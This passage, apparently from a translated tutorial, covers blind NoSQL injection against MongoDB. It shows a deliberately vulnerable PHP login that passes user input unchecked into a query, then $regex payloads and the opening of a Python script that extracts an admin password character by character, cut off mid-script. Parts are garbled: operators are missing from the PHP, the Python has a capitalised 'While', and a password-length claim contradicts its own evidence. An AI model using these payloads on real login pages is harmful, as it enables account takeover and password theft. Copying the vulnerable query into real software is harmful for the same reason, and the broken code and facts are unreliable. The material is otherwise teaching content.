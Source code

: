 ````sql
- When the page does not echo, you can use the `$regex` regular expression to perform blind annotation. `$regex` can achieve the same functions as the `substr` function in traditional SQL injection

```php
<?php
show_source();

$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' =$username,
    'password' =$password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```
![Insert the image description here](https://img-blog.csdnimg.cn/2233fe56eee9410dbf4961d668342f90.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/9d6cb26455c64b6da4161c7b5ec408dc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

- You can log in successfully when `password[$regex]=.{8}`, but fail when `password[$regex]=.{9}`, indicating that the password length of the admin user is 6
- After knowing the length of password, you can extract password characters bit by bit

````sql
username=admin&password[$regex]=a.{7}
or
username=admin&password[$regex]=^a
```

- Nosql blind script

```python
import requests
import string

password = ''
url = 'http://127.0.0.1/html/demo.php'

While True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:
            
            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
````